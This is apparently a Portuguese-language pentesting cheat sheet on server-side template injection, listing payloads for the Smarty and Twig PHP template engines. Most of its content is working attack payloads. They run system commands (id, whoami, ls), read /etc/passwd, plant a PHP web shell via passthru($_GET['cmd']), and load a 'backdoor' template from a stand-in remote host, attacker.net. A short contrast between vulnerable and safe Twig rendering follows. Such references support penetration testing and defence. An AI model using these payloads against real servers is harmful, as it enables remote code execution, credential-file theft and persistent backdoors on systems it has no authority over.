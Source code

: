 {% embed url="https://www.rootedcon.com/" %}

##

### Smarty (PHP)
```php
{$smarty.version}
{php}echo `id`;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```
**Mais informações**

* Na seção Smarty de [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty)

### Twig (PHP)

* `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{7*'7'}} = 49`
* `{{1/0}} = Erro`
* `{{foobar}} Nada`
```python
#Get Info
{{_self}} #(Ref. to current application)
{{_self.env}}
{{dump(app)}}
{{app.request.server.all|join(',')}}

#File read
"{{'/etc/passwd'|file_excerpt(1,30)}}"@

#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
```
**Twig - Formato de template**
```php
$output = $twig > render (
'Dear' . $_GET['custom_greeting'],
array("first_name" => $user.first_name)
);

$output = $twig > render (
"Dear {first_name}",
array("first_name" => $user.first_name)
);
```
**Mais informações**
